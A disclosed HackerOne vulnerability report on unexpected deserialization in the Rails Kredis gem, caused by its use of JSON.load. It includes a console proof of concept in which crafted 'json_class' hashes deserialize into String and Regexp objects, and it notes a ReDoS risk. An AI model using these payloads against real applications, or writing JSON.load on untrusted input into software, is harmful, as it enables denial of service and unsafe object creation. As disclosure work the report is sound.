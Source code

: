 # Unexpected deserialization in Kredis

## Report Details
- **Report ID**: 1702859
- **URL**: https://hackerone.com/reports/1702859
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-09-17T07:55:51.251Z
- **Disclosed**: 2023-08-16T04:50:31.204Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
Unexpected classes may be deserialized because `JSON.load` is used to cast json in [Kredis](https://github.com/rails/kredis).

https://github.com/rails/kredis/blob/v1.3.0/lib/kredis/type/json.rb

```ruby
module Kredis
  module Type
    class Json < ActiveModel::Type::Value
      def type
        :json
      end

      def cast_value(value)
        JSON.load(value)
      end
```      

### PoC

prepare kredis with rails

```
❯ rails new rails_server -G -M -O -C -A -J -T
# Rails 7.0.4 install

❯ cd rails_server

# Edit Gemfile to uncomment `gem "kredis"` 
❯ bundle install
# kredis 1.3.0 install

❯ rails kredis:install
```

```ruby
❯ bundle exec rails c
Loading development environment (Rails 7.0.4)
irb(main):001:0> abc = 'abc'.to_json_raw_object
=> {"json_class"=>"String", "raw"=>[97, 98, 99]}

irb(main):002:0> json = Kredis.json "json_load"
=>
#<Kredis::Types::Scalar:0x00000001099ea250
...

irb(main):003:0> json.value = abc
=> {"json_class"=>"String", "raw"=>[97, 98, 99]}

irb(main):004:0> json.value
=> "abc"
```

The return value of `json.value` should be a hash object, but it is deserialized as a string object.

```ruby
irb(main):005:0> json.value = /test/
=> /test/

irb(main):006:0> json.value
=> "(?-mix:test)"

irb(main):007:0> json.value = /test/.as_json
=> "(?-mix:test)"

irb(main):008:0> json.value
=> "(?-mix:test)"

irb(main):009:0> require 'json/add/core'
=> true

irb(main):010:0> json.value = /test/.as_json
=> {"json_class"=>"Regexp", "o"=>0, "s"=>"test"}

irb(main):011:0> json.value
=> /test/
```

If [json/add/core](https://github.com/flori/json/tree/master/lib/json/add)  is loaded, classes such as regular expressions can also be deserialized.

## Impact

If a hash is passed to `Kredis.json` by user input, reading the value may cause unexpected problems.

The only deserializable classes are those with `self.json_create` declared, usually String class are possible.(https://github.com/flori/json/blob/v2.6.2/lib/json/pure/generator.rb#L434)


If `json/add/core` is loaded, it is possible to deserialize RegExp, etc., thus risking ReDoS, etc.

## Attachments
No attachments
